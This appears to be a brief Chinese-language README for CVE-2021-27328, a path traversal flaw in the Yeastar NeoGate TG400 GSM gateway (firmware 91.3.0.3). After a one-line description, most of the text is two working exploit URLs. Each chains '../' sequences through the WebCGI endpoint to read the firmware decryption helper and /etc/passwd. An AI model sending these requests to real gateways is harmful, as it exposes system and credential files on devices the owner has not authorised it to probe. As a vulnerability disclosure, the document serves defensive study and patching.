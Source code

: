 # Yeastar-NeoGate
朗视 Yeastar NeoGate TG400 路径遍历漏洞CVE-2021-27328

漏洞描述
朗视 TG400 GSM 网关存在路径遍历 ，攻击者可以通过漏洞获取敏感信息
 
--------------------------------------------------------------------------------
 
漏洞影响
朗视 TG400 GSM 网关91.3.0.3

获取固件解密密码
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect

/etc/passwd：
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
